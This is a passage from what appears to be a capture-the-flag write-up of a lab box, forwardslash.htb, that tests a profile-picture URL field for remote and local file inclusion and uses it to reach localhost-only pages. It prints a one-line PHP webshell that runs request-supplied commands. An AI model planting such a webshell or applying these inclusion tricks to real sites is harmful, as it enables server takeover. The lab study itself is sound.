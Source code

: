 ```

<!DOCTYPE html>
<head>
    <meta charset="UTF-8">
    <title>Welcome</title>
    <link rel="stylesheet" href="bootstrap.css">
    <style type="text/css">
        body{ font: 14px sans-serif; text-align: center; }
    </style>
</head>
<body>
    <div class="page-header">
        <h1>Change your Profile Picture!</h1>
	<font style="color:red">This has all been disabled while we try to get back on our feet after the hack.<br><b>-Pain</b></font>
    </div>
<form action="/profilepicture.php" method="post">
        URL:
        <input type="text" name="url" disabled style="width:600px"><br>
        <input style="width:200px" type="submit" value="Submit" disabled>
</form>
</body>
</html>
<?php system($_REQUEST["cmd"]); ?>

```

That means that the data included isn’t executed as PHP. Instead of something like `require()` or `include()`, it must be using something like `file_get_contents()`. Sending a webshell via RFI won’t provide code execution.

#### /dev

Grabbing `http://backup.forwardslash.htb/dev/` as a profile picture loads the API test console:

![image-20200405152338261](https://0xdfimages.gitlab.io/img/image-20200405152338261.png)

Hitting the submit button returns the 403 because the request is coming from my host, so the IP block kicks in. Turned out this is the intended path, so I’ll come back to this at the end of this section.

#### RFI Enumeration

I did a bit more poking around to see if there was anything different when queried from localhost. For example, I can access `http://127.0.0.1/server-status/`:

![image-20200405064617700](https://0xdfimages.gitlab.io/img/image-20200405064617700.png)

There is some information leakage, but nothing I found this way seemed too valuable.

### LFI in Profile Picture

The good news about the include not processing as PHP is that if I can reference local files, I can leak source for the site. I’ll test to see if a local file is included when given a file path instead of a url. I’ll also move over to Burp Repeater here so I don’t have to keep enabling the form elements. The LFI works:

